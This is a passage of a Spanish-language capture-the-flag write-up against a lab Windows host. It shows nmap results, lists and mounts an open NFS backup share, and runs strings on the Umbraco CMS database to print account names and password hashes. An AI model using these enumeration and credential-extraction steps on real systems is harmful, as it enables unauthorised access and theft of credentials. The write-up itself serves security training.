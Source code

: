```
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-05T23:16:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.85 seconds
```

### NFS Service Enumeration

`Listamos` los `directorios` compartidos

```
# showmount -e 10.129.230.172
Export list for 10.129.230.172:
/site_backups (everyone)
```

Nos `montamos` la `carpeta compartida` en nuestro directorio `/mnt`

```
# sudo mount -t nfs 10.129.230.172:/site_backups /mnt/backups           
```

En `App_Data`está el archivo `Umbraco.sdf` que es la `base de datos` del `CMS Umbraco`

```
# strings Umbraco.sdf | head -n 10 
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
```
